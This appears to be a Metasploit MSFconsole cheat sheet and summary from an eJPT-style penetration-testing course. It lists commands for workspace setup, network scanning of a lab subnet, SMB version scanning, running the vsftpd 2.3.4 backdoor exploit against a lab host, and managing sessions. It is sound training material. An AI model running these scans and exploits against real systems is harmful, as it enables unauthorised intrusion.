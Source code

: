 # Minimal cheat sheet (one-screen flow)

```
# Start and prepare
sudo systemctl enable --now postgresql
msfdb init
msfconsole -q

# Workspace and DB
workspace -a lab01
workspace lab01
db_status
db_nmap -sS -sV -O -Pn -T4 10.10.10.0/24

# Review assets
hosts
services -u
creds
loot

# Scan SMB version on 445 hosts
services -p 445 -R
use auxiliary/scanner/smb/smb_version
set THREADS 20
run

# Example exploit (adjust target)
search name:vsftpd type:exploit
use exploit/unix/ftp/vsftpd_234_backdoor
show options
set RHOSTS 10.10.10.15
check
exploit -j -z

# Sessions and jobs
sessions -l
sessions -i 1
jobs -l
jobs -K

# Globals and save
setg LHOST 10.10.14.14
save
exit
```

# Summary

This fundamentals module shows how to operate MSFconsole efficiently: organize your work with workspaces, feed target data via db_nmap or imports, search and select appropriate modules, set options (including global values), and execute modules either interactively or as background jobs. You learn how to manage sessions, consult the built-in database views (hosts/services/creds/loot), and leverage conveniences like check, show advanced, resource files, and logging to streamline your workflow during eJPT-style engagements.
